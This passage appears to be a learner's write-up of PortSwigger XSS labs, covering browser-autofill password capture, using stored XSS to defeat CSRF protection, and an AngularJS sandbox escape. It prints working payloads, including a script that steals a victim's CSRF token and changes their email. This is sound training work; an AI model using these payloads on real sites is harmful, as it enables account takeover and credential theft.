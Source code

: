 ![](/assets/images/XSS/Pasted%20image%2020250726235143.png)

This is one of the most interesting scenarios. I had to refer to the solution. As per my understanding, this abuses the autofill feature in browsers. Basically every time the browser detects the elements with names `username` and `password` it will autofill the saved passwords. As per our payload, it should trigger every time the length of the password field changes. We get a response like the one in the screenshot below.

![](/assets/images/XSS/Pasted%20image%2020250727000347.png)

Simply use the credentials to login.
### 24. Exploiting XSS to bypass CSRF defenses 

Payload that worked:

```html
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```

Methodology and explanation:

We did a CSRF here using XSS. We used a stored XSS in the comments section to steal the CSRF token of another user. CSRF is a basically when the browser performs unauthorized/unwanted actions, in this case stealing the CSRF token. I had to use the solution myself as this is the first time I am doing a CSRF attack and I don't know javascript as of now. 
### 25. Reflected XSS with AngularJS sandbox escape without strings

Payload that worked:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings)

```javascript
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

Methodology and explanation:

As per the lab instructions, we can't use eval() which we had tried in `12. Reflected DOM XSS`. However, the $parse{} function that is parsing the `key` parameter should do the trick. That seems like a point to enter our payload.

![](/assets/images/XSS/Pasted%20image%2020250727012634.png)

This fails in the first try. It looks like the code is making a dictionary. So we can try to add another entry to this using &. ?search=hello&2%2b2=1. %2b is url encoded + sign. We get a result of 4, meaning this new parameter is working as intended.

![](/assets/images/XSS/Pasted%20image%2020250727014146.png)
